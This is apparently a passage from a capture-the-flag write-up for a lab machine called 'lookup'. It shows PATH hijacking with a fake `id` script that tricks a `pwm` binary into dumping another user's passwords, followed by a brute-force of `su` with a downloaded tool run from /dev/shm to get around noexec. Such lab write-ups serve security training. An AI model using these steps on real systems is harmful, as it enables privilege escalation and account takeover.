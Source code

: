 So, as part of the `pwm` binary's procedure, it scrapes the output of whatever `id` returns.
```
www-data@lookup:/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can use a technique called **PATH hijacking** to write our own `id` binary in a folder we control, like `/tmp`, and point the `pwm` binary to our custom `id` binary by setting our `PATH` variable to `/tmp` before the rest of default system paths. This tricks `pwm` into executing our custom `id` binary instead of the real one. We'll have to make `id` executable as well.
```
www-data@lookup:/tmp$ echo "echo 'uid=33(think) gid=33(www-data) groups=33(www-data)'" > id
www-data@lookup:/tmp$ cat id
cat id
echo 'uid=33(think) gid=33(www-data) groups=33(www-data)'
www-data@lookup:/tmp$ chmod +x id
```
*Specifically, when our custom `id` binary is run, it echoes a false output that the current user has the UID of `think`. `pwm` uses the output of `id` to make it's decision, so by altering `id` we can do malicious things with `pwm`.*

We'll then run `export PATH=/tmp:$PATH`, which appends `/tmp` to the beginning of `$PATH` so that binaries like `pwm` will look for binaries in `/tmp` for its needs.

```
www-data@lookup:/tmp$ pwm | tee passwords.txt
pwm | tee passwords.txt
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002

<SNIP>
```

Let's brute-force these potential passwords by downloading [this GitHub repo](https://github.com/d4t4s3c/suForce). We'll make it executable `chmod +x suForce` and move `suForce` and `passwords.txt` to `/dev/shm` since `/tmp` is not allowing this to execute.

> What is `/dev/shm`?
>
> - It’s a **temporary filesystem** (tmpfs) stored in **RAM**.
> - It’s writable by all users (`drwxrwxrwt` permissions, like `/tmp`).
> - It often allows **execution of binaries or scripts**, even when `/tmp` has `noexec` set (i.e., execution is blocked there).


```
./suForce -u think -w passwords.txt
───────────────────────────────────
 code: d4t4s3c     version: v1.0.0
───────────────────────────────────
🎯 Username | think
📖 Wordlist | passwords.txt
🔎 Status   | 1/51/1%/[!] Running 'id' command to extract th
🔎 Status   | <SNIP>
💥 Password | <SNIP>
───────────────────────────────────
```
